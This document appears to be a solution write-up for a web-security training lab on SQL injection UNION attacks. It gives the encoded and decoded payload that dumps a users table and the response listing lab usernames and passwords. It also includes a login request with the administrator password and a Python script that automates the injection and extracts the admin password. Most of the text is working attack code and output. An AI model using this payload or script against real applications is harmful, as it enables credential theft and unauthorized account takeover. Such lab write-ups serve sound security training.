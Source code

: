 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

Payload:
```php
GET /filter?category=Gifts'%20UNION%20SELECT%20username%2c%20password%20FROM%20users--
```

Decoded:
```php
Gifts' UNION SELECT username, password FROM users--
```

Response:
```php
th>carlos</th>
<td>5puecct77hwth1fplai0</td>

<th>wiener</th>
 <td>wrnxqytie95ff9eywynt</td>

  <tr><th>administrator</th>
<td>qb0id1auv52d02n6tqe8</td>
```

carlos:5puecct77hwth1fplai0
administrator:qb0id1auv52d02n6tqe8

Login:
```php
csrf=kqiXGIMPMxuroXVY7ghmG2QG6awSHd1S&username=administrator&password=qb0id1auv52d02n6tqe8
```

Requirements:

- `POST` request.
- Get CSRF token from `/login`
- Grab the admin password with beautifulsoup

Script:

```python
#!/usr/bin/python3

import sys
import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def union_atk(s, url):
	exploit_url = url + "filter?category=Pets'%20UNION%20SELECT%20username%2c%20password%20FROM%20users--"
	r = s.get(exploit_url, verify=False, proxies=proxies)
	soup = BeautifulSoup(r.text, 'html.parser')
	admin_pass = soup.find(string='administrator').parent.findNext('td').contents[0]
	print("[+] The administrator password is '%s'." % admin_pass)

def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s www.example.com/')
		sys.exit(-1)
		
	s = requests.Session()	
	url = sys.argv[1]
	union_atk(s, url)

if __name__ == '__main__':
	main()
```

